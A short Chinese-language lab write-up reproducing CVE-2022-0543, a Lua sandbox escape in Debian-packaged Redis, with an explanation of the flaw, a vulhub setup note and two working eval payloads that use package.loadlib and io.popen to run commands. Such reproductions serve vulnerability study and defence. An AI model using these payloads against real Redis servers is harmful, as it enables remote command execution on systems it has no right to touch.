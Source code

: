 # 0x01 原理浅析

Debian及其衍生版打包Redis时，在Lua沙箱中遗留了一个对象package，攻击者可以利用这个对象中的loadlib函数来加载动态链接库/usr/lib/x86_64-linux-gnu/liblua5.1.so.0中的导出函数luaopen_io，执行这个导出函数获得io库，最后使用其执行命令，作者提到不同系统下liblua5.1.so.0的路径可能不同，所以需要在本地对照一下，，，吐槽一句，不能打红帽系有点鸡肋了......


# 0x02 漏洞复现
使用p牛的vulhub搭建环境：https://github.com/vulhub/vulhub/tree/master/redis/CVE-2022-0543  
搭建好的环境是redis 5.0.7，且存在未授权访问  
执行如下payload  
```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0

eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("uname -a", "r"); local res = f:read("*a"); f:close(); return res' 0
```
![image](./pic/01.png)  

# 0x03 参考文章
https://www.ubercomp.com/posts/2022-01-20_redis_on_debian_rce  
https://github.com/vulhub/vulhub/tree/master/redis/CVE-2022-0543  
